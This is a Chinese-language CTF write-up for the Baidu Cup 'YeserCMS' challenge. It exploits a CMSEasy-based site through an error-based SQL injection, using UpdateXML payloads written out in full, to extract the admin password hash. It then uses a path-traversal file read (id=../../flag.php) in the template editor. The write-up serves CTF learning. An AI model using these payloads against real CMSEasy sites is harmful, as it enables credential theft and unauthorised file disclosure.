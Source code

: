 # Yeser-CMS漏洞利用

[2018-09-20]()

刚刚做了一道“百度杯”CTF比赛 九月场中的CMS题目，这里拿出来分享一下

> 题目内容：新的CMS系统，帮忙测测是否有漏洞。  
> tips:flag在网站根目录下的flag.php中

首先去百度了一下，是没有这个cms的，那么看一下这个网站看有没有有用的信息  
我看先看一下这个文件：`http://0b572aacb0994d6fb941349a346cae04c9d7fafc8afd42b6.game.ichunqiu.com/robots.txt`  
这个文件的作用是告诉我们哪些网站能爬，哪些不饿能爬，不过它里面有时候会放一些重要的东西

页面显示如下：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line">#</span><br><span class="line"># robots.txt for YeserCMS</span><br><span class="line"># Version 5.0.0</span><br><span class="line">#</span><br><span class="line"></span><br><span class="line">User-agent: *</span><br><span class="line"></span><br><span class="line">Disallow:/admin/</span><br><span class="line">Disallow:/cache/</span><br><span class="line">Disallow:/common/</span><br><span class="line">Disallow:/config/</span><br><span class="line">Disallow:/fckeditor/</span><br><span class="line">Disallow:/htaccess/</span><br><span class="line">Disallow:/images/</span><br><span class="line">Disallow:/install/</span><br><span class="line">Disallow:/js/</span><br><span class="line">Disallow:/lib/</span><br><span class="line">Disallow:/template/</span><br><span class="line">Disallow:/upload/</span><br><span class="line">Disallow:/celive/</span><br><span class="line">Disallow:flag.php</span><br></pre></td></tr></tbody></table>

  
可以好几个比较重要的目录和文件

先放到这，然后我们继续寻找有用的信息  
在文档下载页面，随便点一个文档进去，拉到最下面的评论区可以在我要评论里面看到网站的框架是CMSEASY  
![](1.png)

```
百度了一下CMSeasy，发现这确实是一个CMS，而且是有漏洞的
https://www.seebug.org/appdir/CmsEasy
使用无限制报错注入
https://www.seebug.org/vuldb/ssvid-94084
```

这个网站存在报错注入，大概思路就是：  
通过报错注入获得管理员用户名和密码  
然后通过上边的`robots.txt`我们可以看到后台目录是：`/admin/`  
我们直接登陆后台，漏洞在后台页面上

接下来的问题就是如何获得用户名和密码，通过上边这篇文档提供的方法，直接把payload拿来用了：  
存在注入漏洞的页面是：`url/celive/live/header.php`  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">那么我们访问这个页面，同时postdata:xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,substring((SELECT/**/GROUP_CONCAT(username,password) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- &lt;/q&gt;&lt;/xjxquery&gt;</span><br></pre></td></tr></tbody></table>

  
这样确实得到了回显，有用户名，但是密码好像是不全的  
![](2.png)

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">接下来直接只查看完整的密码的md5</span><br><span class="line">xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx%2527%252c(UpdateXML(1%252cCONCAT(0x5b%252csubstring((SELECT%252f**%252fGROUP_CONCAT(username%252cpassword)%2bfrom%2byesercms_user)%252c7%252c39)%252c0x5d)%252c1))%252cNULL%252cNULL%252cNULL%252cNULL%252cNULL%252cNULL)--%2b&lt;/q&gt;&lt;/xjxquery&gt;</span><br><span class="line"></span><br><span class="line">页面返回如下</span><br><span class="line">XPATH syntax error: '[f512d4240cbbdeafada404677ccbe61'&lt;br /&gt;&lt;br /&gt;INSERT INTO `yesercms_detail` (`chatid`,`detail`,`who_witter`) VALUES('','xxxxxx',(UpdateXML(1,CONCAT(0x5b,substring((SELECT/**/GROUP_CONCAT(username,password) from yesercms_user),7,39),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)--  (2018-08-13 16:22:21)','2')</span><br></pre></td></tr></tbody></table>

![](3.png)  
然后就知道了

```
用户名admin，密码ff512d4240cbbdeafada404677ccbe61，md5解密为Yeser231。
```

这里推荐一个md5在线解码网站，可以直接解出来这个值：`http://www.dmd5.com/md5-decrypter.jsp`  
然后我们就可以进入后台了，在后台直接登陆就行

![](4.png)

登陆后就进入了后台  
还是查看的别人的文章，CMSeasy在后台有一个任意文件查看的漏洞  
我们点击`模板`，然后选择`当前模板编辑`，然后抓个包，点击编辑  
![](5.png)  
![](6.png)  
![](7.png)  
在包的最下边会看到：`&id=#footer_html`这个东西  
![](8.png)

把它修改成`&id=../../flag.php`  
这就是任意文件查看漏洞  
之后发送包，我们要的flag就出来了  
![](9.png)
